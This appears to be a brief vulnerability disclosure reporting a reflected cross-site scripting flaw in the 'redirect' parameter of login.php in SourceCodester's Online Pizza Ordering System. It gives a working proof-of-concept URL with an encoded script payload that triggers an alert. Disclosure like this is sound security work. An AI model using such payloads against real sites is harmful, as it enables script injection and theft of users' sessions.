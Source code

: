 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16166/online-pizza-ordering-system-php-free-source-code.html

Vulnerability trigger parameter: $redirect

The process of vulnerability discovery is as follows：

![image](https://user-images.githubusercontent.com/30823782/220946674-d94e1d49-8edf-4b25-b768-9f68fb407756.png)


exp

```
http://192.168.31.50/php-opos/login.php?redirect=%27%3E%3C/script%3E%3Cscript%3Ealert(%22xss%22)%3C/script%3E
```

![image](https://user-images.githubusercontent.com/30823782/220946723-e20796d5-f4c0-4d26-8d77-9841fdb009e8.png)






